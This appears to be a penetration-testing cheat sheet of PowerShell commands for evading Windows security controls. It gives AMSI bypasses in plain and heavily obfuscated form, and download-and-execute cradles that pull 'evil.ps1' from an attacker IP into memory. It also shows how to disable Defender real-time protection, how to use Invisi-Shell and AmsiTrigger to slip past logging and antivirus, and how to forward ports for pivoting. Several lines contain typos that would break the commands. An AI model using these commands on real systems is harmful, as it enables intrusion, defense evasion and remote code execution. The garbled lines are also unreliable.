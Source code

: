 

## Tricks to Bypass protections
  * [Execution Policy Protection](#execution-policy-protection)
  * [AMSI Bypass](#amsi-bypass)
  * [Memory Execution](#memory-execution)
  * [Disable Defender](#disable-defender)
  * [Invisi Shell](#invisi-shell)
  * [AMSI Trigger](#amsi-trigger)
  * [References](#references)

### Execution Policy Protection
---
```powershell
C:> powershell -ExecutionPolicy bypass
C:> powershell -c <cmd>
C:> powershell -encodedcommand
C:> $env:PSExecutionPolicyPreference = "bypass"
```

### AMSI Bypass
---
Plain:
```powershell
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
Obfuscation:
```powershell
C:> sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
```powershell
C:> S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
### Memory Execution
---
##### Import Module on Memory
```powershell
C:> iex ((New-Object Net.WebClient).DownloadString('http://<ip_address>/<file>.ps1'));
```
```powershell
C:> $ie=New-Object -ComObject InternetExplorer.Application;$ie.visible ==$False;$ie.navigate('http 192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
```
```powershell
C:> $h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send;iex $h.responseText
```
```powershell
C:> $wr=[System.NET.WebRequest]::Create("http 192.168.230.1/evil.ps1")
C:> $r=$w. GetResponse()
C:> IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
##### Run Remote Script (PSv3 Onwards)
```powershell
C:> iex (iwr 'http://<ip>/evil.ps1' -UseBasicParsing)
```

### Disable Defender
---
Admin Privileges Required
```powershell
C:> Powershell -ep bypass
C:> Set-MpPreference -DisableIOAVProtection $true
C:> Set-MpPreference -Disablerealtimemonitoring $true
C:> "[Ref].Assembly.GetType('System.MAnagement.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublix,Static').SetValue($null,$true)"
```
### Invisi Shell
---
From the [Tool GitHub](https://github.com/OmerYa/Invisi-Shell): _Hide your powershell script in plain sight! Invisi-Shell bypasses all of Powershell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking .Net assemblies. The hook is performed via CLR Profiler API._

- Having Admin Privileges:
```powershell
C:> RunWithPathAsAdmin.bat
```
- Non Admin:
```powershell
C:> RunWithRegistryNonAdmin.bat
```

### AMSI Trigger
---
To identify the part of a PowerShell script that is detected by AV. 
Simply provide the path to the script file to scan:
```powershell
C:> AmsiTrigger_x64.exe -i C: AD Tools Invoke PowerShellTcp_Detected.ps1
```
Steps:
- Scan using the tool
- Modify code snippet
- Reescan
- Repeat until we get as result "AMSI_RESULT_NOT_DETECTED" or "Blank"

### AppLocker
---

```powershell
C:> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
#### Constrained LAnguage Mode (CLM)
```powershell
C:> $ExecutionContext.SessionState.LanguageMode
```
- `ConstrainedLanguage`
- 'FullLanguage`
> Bypassing AppLocker, automatically bypasses Language Mode
### Port Forwarding
---
```powershell
C:> netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x

# To execute using RMI (note the `$null` to avoid redirection issues
C:> $null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```

### References
---
- [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/): Ways to Bypass AMSI
- [AMSI Trigger](https://github.com/RythmStick/AMSITrigger)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [S3cur3Th1sSh1t](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)


